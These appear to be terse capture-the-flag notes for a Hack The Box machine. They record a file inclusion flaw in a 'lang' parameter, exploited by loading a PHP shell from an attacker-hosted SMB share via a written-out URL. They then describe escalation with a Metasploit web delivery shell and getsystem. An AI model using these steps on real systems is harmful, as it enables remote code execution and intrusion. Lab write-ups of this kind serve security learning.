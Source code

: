 # Enumeration
---
- Port 80 found

# LFI
---
![[Pasted image 20250802080211.png]]
- Possible LFI in `lang`
- ![[Pasted image 20250802080241.png]]

# Getting Reverse Shell
---
- Make a php script to get reverse shell:
	- ![[Pasted image 20250802080316.png]]
- Start smbserver:
	- `impacket-smbserver -smb2support htbshare .`
	- ![[Pasted image 20250802080350.png]]
- Load the `cmd.php` file from url:
	- `http://10.10.10.151/blog/?lang=\\10.10.16.6\htbshare\cmd.php`
	- ![[Pasted image 20250802080420.png]]

# User shell
---
- ![[Pasted image 20250802080440.png]]
- Get meterpreter shell from metasploit web delivery:
	- ![[Pasted image 20250802080513.png]]

# Root Shell
---
- Use meterpreter's `getsystem`:
	- ![[Pasted image 20250802080553.png]]
